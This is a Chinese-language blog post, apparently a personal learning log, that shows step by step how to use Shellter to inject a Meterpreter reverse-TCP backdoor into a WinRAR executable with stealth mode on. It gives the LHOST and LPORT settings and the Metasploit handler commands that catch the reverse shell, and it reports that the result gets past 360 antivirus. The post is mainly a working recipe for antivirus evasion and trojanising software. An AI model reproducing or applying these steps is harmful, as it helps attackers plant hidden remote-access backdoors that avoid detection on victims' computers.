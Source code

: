 ```yaml
---
layout:     post
title:      记一次使用Shellter做免杀过360过程
subtitle:   免杀入门学习
date:       2018-11-12
author:     蓝胖
header-img: img/post-bg-2018-11-08.jpg
catalog: true
tags:
    - 免杀
    - Shellter



---
```


>“我觉得法律应该明确规定下，在这么阳光明媚的日子里上班应该算公司耍流氓！”


 > Shellter是一个开源的免杀工具，利用动态Shellcode注入来实现免杀的效果。好神奇阿，有空可以详细研究研究

# 环境及工具：
KALI	192.168.117.131
目标		192.168.117.1

[Shellter](https://www.shellterproject.com/download/)
[![iLE1A0.md.jpg](https://s1.ax1x.com/2018/11/12/iLE1A0.md.jpg)](https://imgchr.com/i/iLE1A0)

[notepad](https://notepad-plus-plus.org/download/v7.5.9.html)
[![iLEMBn.md.png](https://s1.ax1x.com/2018/11/12/iLEMBn.md.png)](https://imgchr.com/i/iLEMBn)

# 进行免杀
下载Shellter，进入目录输入：`wine shellter.exe` 运行。第一次运行比较慢，去嘘嘘活动下。出现如下界面代表运行成功。 
[![iLEnXj.md.jpg](https://s1.ax1x.com/2018/11/12/iLEnXj.md.jpg)](https://imgchr.com/i/iLEnXj)
我第一次用的时候提示我没有装 wine，按照提示 apt-get wine就行。
提示下：如果半天没有反应，按下回车就行了
**Choose Operation Mode - Auto/Manual (A/M/H): A**  
模式选择，选手动模式 A 
A 自动添加后门、M 高级用法、H 帮助

**PE Target: /root/Desktop/wrar.exe**
需要加包的路径+名称
[![iLEQ7q.md.png](https://s1.ax1x.com/2018/11/12/iLEQ7q.md.png)](https://imgchr.com/i/iLEQ7q)


**Enable Stealth Mode? (Y/N/H): Y**   
是否启用隐身模式，启用 Y
[![iLEZ9S.md.jpg](https://s1.ax1x.com/2018/11/12/iLEZ9S.md.jpg)](https://imgchr.com/i/iLEZ9S)

**Use a listed payload or custom? (L/C/H): L**
使用攻击模块列表或者自定义？ 

**Select payload by index: 1**

**SET LHOST: 192.168.117.131**
设置接收反弹的IP

**SET LPORT: 8088**
设置接收反弹的端口

[![iLEEh8.md.jpg](https://s1.ax1x.com/2018/11/12/iLEEh8.md.jpg)](https://imgchr.com/i/iLEEh8)
[![iLEe1g.md.jpg](https://s1.ax1x.com/2018/11/12/iLEe1g.md.jpg)](https://imgchr.com/i/iLEe1g)

# 设置监听
进入MSF控制台输入如下

`use exploit/multi/handler`

`set payload windows/meterpreter/reverse_tcp`

`set lhost 192.168.117.131`

`set lport 8088`

`exploit`

[![iLEmcQ.md.jpg](https://s1.ax1x.com/2018/11/12/iLEmcQ.md.jpg)](https://imgchr.com/i/iLEmcQ)
360杀毒截图,腾讯管家也行，朋友电脑没有截图
[![iLEKns.md.jpg](https://s1.ax1x.com/2018/11/12/iLEKns.md.jpg)](https://imgchr.com/i/iLEKns)

